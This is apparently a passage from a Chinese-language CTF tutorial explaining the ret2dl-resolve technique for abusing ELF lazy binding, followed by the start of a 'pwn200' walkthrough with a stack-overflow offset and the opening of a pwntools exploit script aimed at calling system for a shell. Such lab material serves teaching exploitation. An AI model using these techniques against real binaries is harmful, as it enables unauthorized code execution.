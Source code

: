 ### 攻击

关于延迟绑定的攻击，在于强迫动态装载器解析请求的函数。

![img](../pic/6.1.3_attack.png)

- 图a中，因为动态转载器是从 `.dynamic` 段的 `DT_STRTAB` 条目中获得 `.dynstr` 段的地址的，而 `DT_STRTAB` 条目的位置已知，默认情况下也可写。所以攻击者能够改写 `DT_STRTAB` 条目的内容，欺骗动态装载器，让它以为 `.dynstr` 段在 `.bss` 段中，并在那里伪造一个假的字符串表。当它尝试解析 printf 时会使用不同的基地址来寻找函数名，最终执行的是 execve。这种方式非常简单，但仅当二进制程序的 `.dynamic` 段可写时有效。
- 图b中，我们已经知道 `_dl_runtime_resolve` 的第二个参数是 Elf_Rel 条目在 `.rel.plt` 段中的偏移，动态装载器将这个值加上 `.rel.plt` 的基址来得到目标结构体的绝对位置。然后当传递给 `_dl_runtime_resolve` 的参数 `reloc_index` 超出了 `.rel.plt` 段，并最终落在 `.bss` 段中时，攻击者可以在该位置伪造了一个 `Elf_Rel` 结构，并填写 `r_offset` 的值为一个可写的内存地址来将解析后的函数地址写在那里，同理 `r_info` 也会是一个将动态装载器导向到攻击者控制内存的下标。这个下标就指向一个位于它后面的 `Elf_Sym` 结构，而 `Elf_Sym` 结构中的 `st_name` 同样超出了 `.dynsym` 段。这样这个符号就会包含一个相对于 `.dynstr` 地址足够大的偏移使其能够达到这个符号之后的一段内存，而那段内存里保存着这个将要调用的函数的名称。

还记得我们前面说过的 GOT[1]，它是一个 link_map 类型的指针，其 `l_info` 域中有一个包含 `.dynmic` 段中所有条目构成的数组。动态链接器就是利用这些指针来定位符号解析过程中使用的对象的。通过覆盖这个 link\_map 的一部分，就能够将 `l_info` 域中的 `DT_STRTAB` 条目指向一个特意制造的动态条目，那里则指向一个假的动态字符串表。

![img](../pic/6.1.3_link_map.png)

### pwn200

获得了 re2dl-resolve 所需的所有知识，下面我们来分析题目。

首先触发栈溢出漏洞，偏移为 112：

```text
gdb-peda$ pattern_offset 0x41384141
1094205761 found at offset: 112
```

根据理论知识及对二进制文件的分析，我们需要一个 read 函数用于读入后续的 payload 和伪造的各种表，一个 write 函数用于验证每一步的正确性，最后将 write 换成 system，就能得到 shell 了。

```python
from pwn import *

# context.log_level = 'debug'

elf = ELF('./a.out')
io = remote('127.0.0.1', 10001)
io.recv()

pppr_addr      = 0x08048699     # pop esi ; pop edi ; pop ebp ; ret
pop_ebp_addr   = 0x0804869b     # pop ebp ; ret
leave_ret_addr = 0x080484b6     # leave ; ret

write_plt = elf.plt['write']
write_got = elf.got['write']
read_plt  = elf.plt['read']

plt_0    = elf.get_section_by_name('.plt').header.sh_addr        # 0x80483e0
rel_plt  = elf.get_section_by_name('.rel.plt').header.sh_addr    # 0x8048390
dynsym   = elf.get_section_by_name('.dynsym').header.sh_addr     # 0x80481cc
dynstr   = elf.get_section_by_name('.dynstr').header.sh_addr     # 0x804828c
bss_addr = elf.get_section_by_name('.bss').header.sh_addr        # 0x804a028

base_addr = bss_addr + 0x600    # 0x804a628
```
